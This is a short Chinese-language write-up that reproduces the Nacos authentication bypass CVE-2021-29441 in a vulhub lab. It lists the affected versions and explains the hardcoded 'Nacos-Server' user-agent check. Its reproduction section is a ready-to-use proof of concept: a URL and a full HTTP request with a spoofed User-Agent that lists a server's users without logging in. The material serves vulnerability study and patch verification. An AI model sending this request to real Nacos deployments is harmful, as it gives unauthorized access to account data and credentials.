

# Nacos-认证绕过漏洞（CVE-2021-29441）

### 0x00 前言

该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息。

**影响版本：**

```
<= Nacos 2.0.0-ALPHA.1
< Nacos 1.4.1
```

### 0x01 环境搭建

这里使用vulhub漏洞靶场




### 0x02 漏洞复现

1、访问网页

```
http://192.168.12.130:8848/nacos/v1/auth/users?pageNo=1&pageSize=2
```

2、poc

```
GET /nacos/v1/auth/users?pageNo=1&pageSize=2 HTTP/1.1
Host: your_ip:port
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache
```

